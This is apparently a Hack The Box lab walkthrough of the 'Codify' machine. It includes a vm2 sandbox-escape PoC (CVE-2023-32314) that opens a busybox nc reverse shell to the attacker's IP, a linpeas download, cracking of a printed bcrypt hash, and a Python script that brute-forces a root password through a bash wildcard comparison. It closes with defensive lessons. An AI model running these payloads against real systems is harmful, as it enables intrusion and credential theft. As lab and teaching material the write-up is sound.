

# Hack the Box - Codify

## Step 1 - Accessing the website
After spawning the machine, I navigated to the provided IP via browser:  


To get access to the site, the machine's IP has to be added in `/etc/hosts`  


Now we get access to the site:  


As we can see from the landing page, we are dealing with a node.js code testing website.

## Step 2 - Enumeration
### Available sites
Just by normally navigating the page I was able to find a few sites:  
- `/` - The landing page
- `/about` - About us page
- `/editor` - The JS code editor
- `/limitations` - List of available modules

### Fuzzing
Running ffuf using wfuzz's megabeast.txt didn't reveal anything (tested with .js, .html, .php and .txt extensions), so I'm fairly confident we are dealing only with the pages above. Subdomain fuzzing didn't reveal anything either.

### nmap
Quick nmap scan reveals a few open ports:  
```sh
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Technologies and packages
The `/about` page reveals the website uses `vm2` library  


and the `/limitations` page reveals available modules  


### Interracting with the website
The editor is the most interesting page as we can interract with it. We can write JS code and send it for processing to the backend. The backend returns the output of the provided code.  
  

Although the `/limitations` page said the child_process module has been restricted from importing, I still wanted to test spawning a reverse shell in hopes of misconfiguration. Sucks to be me, cus' I didn't get lucky.  


So I got thinking. Maybe there's a way to encode the reverse shell one-liner. What if I encoded the reverse shell in base64 and made the server decode the command, and then execute it? Let's try this!

To test my approach, I encoded `console.log("Hello, base64!);` in base64 which resulted in `Y29uc29sZS5sb2coIkhlbGxvLCBiYXNlNjQhIik7`. Then I told the editor to take this base64 encoded string, decode it and execute whatever is inside using the `eval()` command, which evaluates the provided JS code. This worked!  


Now I wanted to try spawning a reverse shell again using the same method:
  
Ah rats, that didn't work.

## Step 3 - Initial foothold
The `/about` page provided information that the editor uses `vm2` library for sandboxing. I did a quick google search using `vm2 sandbox escape` as the query. The first results provided me information about `CVE-2023-32314` which is for a sandbox bypass in vm2. Convenient!

I found a  PoC from [snyk.io](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100) and modified it with a busybox nc reverse shell (no special reason for using busybox nc, I just have good experience with it):
```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("busybox nc 10.10.14.77 5555 -e sh").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

Huzzah, we have our initial foothold!

### Upgrading the shell
I like upgrading my shells via:
```sh
$ python3 -c "import pty; pty.spawn('/bin/bash')" # Target machine
# Hit Ctrl+Z to put the process in background
$ stty raw -echo ; fg # Sets the terminal to raw mode -> input is sent directly to the program without processing
```

## Step 4 - Looking for user.txt

### Enumeration
Navigating to `/home` and running `ls` reveals two users: joshua and svc. Navigating to Joshua's home folder is not possible due to insufficient permissions. This is clearly my next target, so I need to figure a way into Joshua's account.

```sh
$ whoami
svc

$ hostname
codify

$ sudo -l
[sudo] password for svc: # No idea about this one...

$ cat /etc/os-release
22.04.3 LTS (Jammy Jellyfish)

$ env
# A bunch of env variables

$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Nothing too interesting showed up, so I decided to run `linpeas.sh` on the target machine:
```sh
# Attacker's machine
$ cd [<path to linpeas>]
$ python3 -m http.server

# Target machine
$ cd /tmp
$ wget http://[<Attacker machine IP>]:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

Again, nothing super obvious was found.

Next, I decided to check the webpage's source code and configuration to see if I could find anything interesting:
```sh
$ cd /var/www
```

Here I found a sqlite database file  
  
Looking inside the database, there are two tables: tickets and users  
  
and in the table users, there's Joshua and a bcrypt password hash (indicated by the `$2a$`) `$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`.

### Cracking Joshua's password
I copied the hash into a file on my local machine and tried to crack it with the help of hashcat and rockyou.txt:
```sh
$ hashcat -m 3200 hash.txt [<path to rockyou.txt>]
```

After a minute, hashcat found the password, which I revealed using
```sh
$ hashcat -m 3200 hash.txt [<path to rockyou.txt>] --show
# Sorry, not giving the password away :-)
```

### user.txt
Back on the target machine, I got the user flag by:
```sh
$ sh joshua
# Password here
$ cd
$ cat user.txt
# 3e7aa67842...
```

## Step 5 - Looking for root.txt
Now that I have access to Joshua's account, lets check if we can run sudo:
```sh
$ sudo -l

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Obviously we are expected to get root access using the `mysql-backup.sh` script.

Checking the file permission:
```sh
$ cd /opt/scripts
$ ls -asl mysql-backup.sh
4 -rwxr-xr-x 1 root root  928 Nov  2 12:26 mysql-backup.sh
```

Let's check the contents:
```sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

Hmm, I'm no expert when it comes to bash, but I'm pretty sure the password comparison is not safe.

I tried command injection, e.g.
```sh
password; /bin/bash #
```
which didn't work. After messing around, I found out inputting wild-card asterisk `*` made the password check pass! This happens because on the password comparison line
```sh
[[ $DB_PASS == $USER_PASS ]]
```
if asterisk is provided, it's essentially comparing if $DB_PASS matches anything at all, which evaluates to true.

After this, I was stumped for a while and took a quick break. After coming back, I realized I could use the asterisk to figure out the root password. If I passed `a*` as the password, the password check would fail. I could go through all characters to find a character which results in a passing statement. I could do this for all characters to figure out root password!

### Gaining root access
I wrote a quick python script to loop through characters, numbers and special-characters and pass them to the mysql-backup.sh -script one by one. If the character plus asterisk resulted in a passing condition, we found the next character in the password. Looping through multiple times would reveal the entire password!
```python
import subprocess

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!\"#$%&'()*+,-./:;<=>?@[\]^_`|{}~"
pw = ""

while True:
	for c in characters:
		cmd = f"echo '{pw}{c}'* |sudo /opt/scripts/mysql-backup.sh"
		output = subprocess.run(cmd, shell=True, stdout=subprocess.PIPE).stdout.decode("utf-8")

		# Next character in the password found
		if "confirmed" in output:
          pw += c
          print(pw)
          break

```

After a minute the script gets stuck as there's no exit condition for the while loop, but it gets the root password (kljh12k3j...) just fine.

Now gaining the root flag was simple:
```sh
$ su root
# Enter password
$ cd
$ cat root.txt
# Root flag :-)
```


## Step 6 - Lessons learned
The steps to get root access to the device were:

### 1. Identify vulnerable technology (vm2, CVE-2023-32314)
The website provided information of used technologies. In this case, it stated the website used vm2. A quick google search revealed a major vulnerability in this package. This is related to [CAPEC-169 Footprinting](https://capec.mitre.org/data/definitions/169.html).

To address this issue, it should be considered if revealing the used techlogy stack is necessary. Revealing too much information can make is easy for attackers to identify vulnerabilities.

### 2. Exploit the vulnerability to get initial foothold
A quick google search provided information about a critical CVE in the used package, which made it possible to execute arbitrary code on the target machine.  This is related to [CAPEC-169 Footprinting](https://capec.mitre.org/data/definitions/169.html).

To address this issue, the used packages should be kept up to date and  proper sanitation measurements should be in place.

### 3. Password discovery (privilege escalation to user)
After getting initial foothold, the user I landed on didn't have too many permissions. However, the user had wide permissions enough to find other local users in the machine and their password hash. This relate_s to [CAPEC-575 Account Footprinting](https://capec.mitre.org/data/definitions/575.html).

To address this issue, the permission should be kept to bare mininmum (least privilege).

### 4. Cracking the password
Cracking the discoeverd user's password was easy, because they used a common password. This relates to [CAPEC-70 Try Common or Default Usernames and Passwords](https://capec.mitre.org/data/definitions/70.html).

To address this issue, adequate password policies should be in place. For example, used passwords shouldn't be on common password lists (e.g., rockyou.txt).

### 5. Exploiting incorrect comparison to get access to root password
The password check in the exploited script was unsafe, and it was exploited to reveal the root user's password. This relates to [CWE-697 Incorrect Comparison](https://cwe.mitre.org/data/definitions/697.html).

To address this issue, code quality and security should be reviewed. Peer reviews are good, but additional tools for static analysis, code quality and code security should be considered.
